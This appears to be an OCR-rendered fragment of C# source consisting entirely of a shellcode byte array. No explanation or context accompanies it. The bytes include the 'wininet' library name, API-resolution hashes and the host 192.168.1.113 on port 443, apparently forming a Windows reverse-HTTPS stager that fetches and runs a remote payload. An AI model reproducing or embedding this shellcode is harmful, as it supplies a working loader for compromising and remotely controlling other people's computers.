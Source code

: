 ```csharp
                                            0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,
                                            0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,
                                            0xd0,0xe3,0x56,0x4d,0x31,0xc9,0x48,0xff,0xc9,0x41,0x8b,0x34,
                                            0x88,0x48,0x01,0xd6,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,
                                            0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,
                                            0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,
                                            0xd0,0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,
                                            0xd0,0x41,0x8b,0x04,0x88,0x41,0x58,0x48,0x01,0xd0,0x41,0x58,
                                            0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,
                                            0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,
                                            0xe9,0x4b,0xff,0xff,0xff,0x5d,0x48,0x31,0xdb,0x53,0x49,0xbe,
                                            0x77,0x69,0x6e,0x69,0x6e,0x65,0x74,0x00,0x41,0x56,0x48,0x89,
                                            0xe1,0x49,0xc7,0xc2,0x4c,0x77,0x26,0x07,0xff,0xd5,0x53,0x53,
                                            0x48,0x89,0xe1,0x53,0x5a,0x4d,0x31,0xc0,0x4d,0x31,0xc9,0x53,
                                            0x53,0x49,0xba,0x3a,0x56,0x79,0xa7,0x00,0x00,0x00,0x00,0xff,
                                            0xd5,0xe8,0x0e,0x00,0x00,0x00,0x31,0x39,0x32,0x2e,0x31,0x36,
                                            0x38,0x2e,0x31,0x2e,0x31,0x31,0x33,0x00,0x5a,0x48,0x89,0xc1,
                                            0x49,0xc7,0xc0,0xbb,0x01,0x00,0x00,0x4d,0x31,0xc9,0x53,0x53,
                                            0x6a,0x03,0x53,0x49,0xba,0x57,0x89,0x9f,0xc6,0x00,0x00,0x00,
                                            0x00,0xff,0xd5,0xe8,0xb4,0x00,0x00,0x00,0x2f,0x75,0x5a,0x74,
                                            0x42,0x58,0x43,0x78,0x5a,0x57,0x31,0x69,0x31,0x37,0x37,0x54,
                                            0x74,0x30,0x37,0x71,0x6e,0x77,0x67,0x65,0x48,0x5f,0x74,0x4b,
                                            0x44,0x5a,0x66,0x62,0x5f,0x48,0x56,0x55,0x36,0x70,0x5f,0x69,
                                            0x38,0x54,0x62,0x63,0x30,0x35,0x71,0x4e,0x31,0x74,0x36,0x5a,
                                            0x7a,0x34,0x73,0x59,0x6c,0x75,0x53,0x34,0x51,0x47,0x66,0x6d,
                                            0x4a,0x4c,0x35,0x66,0x4b,0x48,0x6f,0x59,0x78,0x43,0x75,0x37,
                                            0x48,0x45,0x5a,0x4c,0x31,0x78,0x31,0x54,0x79,0x65,0x32,0x48,
                                            0x74,0x38,0x69,0x73,0x38,0x62,0x4b,0x37,0x59,0x58,0x41,0x75,
                                            0x6c,0x70,0x43,0x41,0x69,0x67,0x47,0x55,0x4b,0x4c,0x77,0x5f,
                                            0x45,0x5a,0x48,0x78,0x77,0x63,0x77,0x56,0x53,0x55,0x54,0x51,
                                            0x71,0x76,0x55,0x5a,0x73,0x38,0x70,0x49,0x42,0x68,0x50,0x52,
```